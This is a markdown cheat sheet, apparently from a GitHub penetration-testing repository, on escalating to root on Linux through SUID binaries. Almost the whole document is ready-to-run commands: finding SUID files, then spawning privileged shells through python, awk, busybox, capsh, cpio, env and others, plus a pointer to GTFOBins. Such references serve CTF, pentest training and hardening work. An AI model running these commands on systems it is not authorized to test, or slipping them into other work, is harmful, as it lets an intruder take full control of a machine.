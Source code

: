 # Linux Privilege Escalation with SUID permission
[< Back to Menu](README.md)
## Prerequisite
- Make sure the given command has `SUID` permission
- Use command `ls -l $(which <command>)` to check command permission. 
- You can find SUID files with command `find / -perm -u=s -type f 2>/dev/null`

## Python, Python3
Python 2.X.X
> /usr/bin/python
```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Python 3.X.X
> /usr/bin/python3
```bash
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
## aa-exec
> /usr/bin/aa-exec
```bash
aa-exec /bin/sh -p
```

## ash
> /usr/bin/ash
```bash
ash -p
```

## awk
> /usr/bin/awk
```bash
awk 'BEGIN {system("sh -p")}'
```

## busybox
> /usr/bin/busybox
```bash
busybox sh
```
after that run `sh -p` so that it will spawn the root shell.

## capsh
> /usr/sbin/capsh
```bash
capsh --gid=0 --uid=0 --
```

## cpio
> /usr/bin/cpio
```bash
echo '/bin/sh -p </dev/tty >/dev/tty' >localhost
cpio -o --rsh-command /bin/sh -F localhost:
```

## env
> /usr/bin/env
```bash
env /bin/sh -p
```

## GTFOBins
For more commands to be exploited, go to [GTFOBins](https://gtfobins.github.io/#+suid%20+shell)
